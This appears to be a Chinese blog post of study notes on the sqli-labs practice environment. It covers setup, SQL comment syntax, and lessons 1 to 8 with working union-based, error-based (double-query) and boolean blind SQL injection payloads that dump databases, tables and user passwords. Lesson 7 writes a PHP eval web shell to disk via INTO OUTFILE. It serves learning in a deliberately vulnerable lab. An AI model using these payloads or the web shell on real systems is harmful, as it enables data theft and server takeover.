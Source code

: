 ```yaml
---
layout: page
title: "SQLi-labs环境搭建及学习"
date: 2019-10-12 01:01
---
```


## 环境搭建
- 花了好久才确定可以使用的php版本及mysql版本
- phpstudy `Apache2.4.39` `MySQL5.5.29` `php5.4.45`
- 将sqli-labs放到www 打开网址http://localhost/sqli-labs/ 点击Setup/reset Database for labs 安装即可

## SQL相关知识
SQL注释符
```
SQL注释符 		URL编码
#				%23
--空格			--%20 --+
/*...*/
```

SQL 查询信息
```
version() 		数据库版本信息
database()		数据库名称
user()			用户名
```

盲注(在不知道数据库返回值的情况下 对数据中的内容进行猜测)
```
盲注
布尔盲注：页面只返回True和False两种类型页面。利用页面返回不同，逐个猜解数据

基于时间的盲注：通过页面沉睡时间判断

报错的盲注：构造payload让信息通过错误提示回显出来，一种类型（其它的暂时不怎么了解）是先报字段数，再利用后台数据库报错机制回显（跟一般的报错区别是，一般的报错注入是爆出字段数后，在此基础通过正确的查询语句，使结果回显到页面；后者是在爆出字段数的基础上使用能触发SQL报错机制的注入语句）
```

## Lesson 1 GET-Error based-Single quotes-String
基于错误-单引号-字符注入

- 判断是否为数值注入
id=1 成功回显数据
id=1 and 1=1 成功回显数据
id=1 and 1=2 成功回显数据
所以不是数值注入

- 判断是否为字符注入
id=1' 报错
id=1'--+ 成功回显
是字符注入

- 查找字段
id=1' order by 5--+ 回显` Unknown column '5' in 'order clause'`
id=1' order by 3--+ 成功回显 字段为3

- 查询回显点
id=' union select 1,2,3--+ 回显`Your Login name:2 Your Password:3`说明第二第三字段会显示

- 查询数据库相关信息
id=' union select 1,database(),user()--+ 回显`Your Login name:security Your Password:root@localhost`
id=' union select 1,2,version()--+ 回显` Your Login name:2 Your Password:5.5.29 `

- 查询所有数据库
id=' union select 1,(select group_concat(schema_name) from information_schema.schemata),3--+ 回显`Your Login name:information_schema,challenges,mysql,performance_schema,security,test Your Password:3`

- 查询security数据库的表名
id=' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3--+ 回显`Your Login name:emails,referers,uagents,users Your Password:3`

- 查询users表中的列名
id=' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3--+ 回显` Your Login name:id,username,password Your Password:3 `

- 查询两个列的数据username与password
id=' union select 1,(select group_concat(username) from users),(select group_concat(password) from users)--+
回显` Your Login name:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4 Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4`

## Lesson 2 GET-Error based-Intiger based
基于错误的数值注入
- 判断是否为数值注入
id=1 成功回显数据
id=1 and 1=1 成功回显数据
id=1 and 1=2 成功执行没有回显数据

- 查找字段
id=1 order by 3--+

- 查询回显点
id=0 union select 1,2,3--+ 回显` Your Login name:2 Your Password:3` 后两个字段回显

- 查询数据库相关信息 
id=0 union select 1,database(),version()--+
id=0 union select 1,database(),user()--+

- 查询所有数据库 
id=0 union select 1,(select group_concat(schema_name) from information_schema.schemata),3--+ 
- 查询数据库表名
id=0 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3--+ 
- 查询users表中的列名
id=0 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3--+ 
- 查询两个列的数据username与password
id=0 union select 1,(select group_concat(username) from users),(select group_concat(password) from users)--+

## Lesson 3 GET-Error based-Single quotes with twist-string
基于GET错误-单引号变形-字符
- id=1' 报错You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ' `'1'')` LIMIT 0,1' at line 1
- 猜测id除了有单引号`''` 还有`()`
`select * from tablename where id=(' ')`
- id=1') and 1=1--+ 成功回显

## Lesson 4 GET-Error based-Double Quotes-String
基于错误-双引号-字符
- id=1'  一个单引号竟然成功回显了 
  id=1'' 两个单引号竟然成功回显了 好吧1'''被当作1执行了
- id=1"  报错for the right syntax to use near ' `"3"")` LIMIT 0,1' at line 1
- 猜测`select * from tablename where id=(" ")`
- id=1") and 1=1--+ 成功回显

## `Lesson 5 GET-Double Injection-Single Quotes-String`
GET-双注入-单引号-字符
双注入用到的函数/语句
```
Rand()          随机函数
Floor()         取整函数
Count()         汇总函数
Group by clause 分组语句
```
- id=2' and (select 1 from (select count(*),concat(((select group_concat(schema_name) from information_schema.schemata)),floor (rand(0)*2))x from information_schema.tables group by x)a) --+
这里使用了派生表`select 1 from a` 回显 `Subquery returns more than 1 row` 实际上这条SQL语句返回一个row 只是字符串长度超过了64位 
- 使用limit 0,1来控制一个个输出 0表示输出的起始位置，1表示跨度为1（即输出几个数据，1表示输出一个，2就表示输出两个）and (select 1 from (select count(*),concat(((select schema_name from information_schema.schemata limit 0,1)),floor (rand(0)*2))x from information_schema.tables group by x)a) --+ 回显`Duplicate entry 'information_schema1' for key 'group_key'`
但是为了使数据输出更清楚 构造语句让报错信息与固定系统语句信息分离 ?id=2' and (select 1 from (select count(*),concat(((select concat(schema_name,';') from information_schema.schemata limit 0,1)),floor (rand(0)*2))x from information_schema.tables group by x)a) --+ 回显`Duplicate entry 'information_schema;1' for key 'group_key'` 其中information_schema为真正报错信息为数据库名称
- ?id=2' and (select 1 from (select count(*),concat(((select concat(table_name,';') from information_schema.tables limit 0,1)),floor (rand(0)*2))x from information_schema.tables group by x)a) --+ 回显` Duplicate entry 'CHARACTER_SETS;1' for key 'group_key'`

## Lesson 6 GET-Double Injection-Double Quotes-String
GET-双注入-双引号-字符串
- 同lesson5 单引号变双引号

## Lesson 7 GET-Dump into outfile-String
GET-导出文件-字符型
- id=1 回显`You are in.... Use outfile......`
- 判断数值注入 id=1 and 1=2 还是回显`You are in.... Use outfile......`不是数值注入
- 判断字符注入 id=1' 回显` You have an error in your SQL syntax `有戏
  id=1'--+   回显` You have an error in your SQL syntax `
  id=1')--+  回显` You have an error in your SQL syntax `
  id=1'))--+ 回显` You are in.... Use outfile......`

- 如果已经绝对路径 可以写入文件 ?id=1')) union select "<?php @eval($_POST['topo']);?>" into outfile "XXX\conn.php" %23 再用蚁剑连接

## Lesson 8 GET-Blind-Boolian Based-Single Quotes
GET-盲注-基于布尔-单引号
- ?id=1 回显`You are in...........`
  id=0  成功执行无回显

- id=1' 成功执行无回显
  id=1'%23 成功执行有回显``You are in...........`
  ?id=1'and 1=2%23 成功执行无回显
  ?id=1'and 1=1%23 成功执行有回显`You are in...........`

布尔盲注 成功查询到数据返回true 错误及无数据返回false 
